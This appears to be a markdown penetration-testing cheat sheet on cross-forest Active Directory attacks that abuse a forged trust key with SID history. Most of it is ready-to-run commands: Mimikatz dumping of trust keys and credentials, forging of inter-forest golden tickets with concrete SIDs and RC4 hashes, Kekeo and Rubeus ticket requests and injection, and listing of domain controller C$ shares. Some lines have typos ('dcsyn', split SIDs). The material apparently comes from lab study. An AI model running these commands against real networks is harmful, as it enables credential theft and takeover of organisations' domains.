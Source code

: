 # 2 Forest Root Trust Key (SID Abuse)

## Cross Domain Attacks \[ Forest Root - SID Abuse ]

### Methodology/Steps

> 1. Dump the trust keys of the inter-forest trusts
> 2. Note the SID of the current Domain, SID of the target Domain and the rc4\_hmac\_nt(Trust Key) of the target Domain. (example : _ecorp$_)
> 3. We can forge a inter-forest TGT with the proper _target_ and _rc4_ parameters
> 4. Now request a TGS using **asktgs.exe**
> 5. Now Inject the TGS in the memory
> 6. Now we can access all the shared files admin DC

***

### Invoke-Mimikatz

#### 1. We require the trust key of inter-forest trust

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### 2. Forge the inter-forest TGT

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787- 2521448726-163245708 /sids:S-1-5-21-2781415573- 3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

#### 3. Request a TGS

> Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo

```powershell
# keko
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
# Or using older version of Kekeo
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

#### 4. Inject and use the TGS

> Use the TGS to access the targeted service (may need to use it twice)

```powershell
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi 
# Or
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi
ls \\techcorp-dc.techcorp.local\c$
```

### Rubeus

#### 1. Create ticket and add it into the memory using asktgs

```powershell
# Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt

C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

# can access the shares now
ls \\techcorp-dc.techcorp.local\c$
ls \\euvendor-dc.euvendor.local\c$
```

### PowerShell

#### 1. Access the euvendor-net machine using PSRemoting

```powershell
# cmdlet
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendornet.euvendor.local -Authentication NegotiateWithImplicitCredential
```

***

## Extras

#### To use the DCSync feature for getting krbtg hash execute the below command with DC privileges

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:garrison.castle.local /all /cvs"'
```

#### Get the ForeignSecurityPrincipal

```powershell
#These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

#With the by default SIDs, we find S-1-5-21-493355955-4215530352-779396340-1104
#We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```
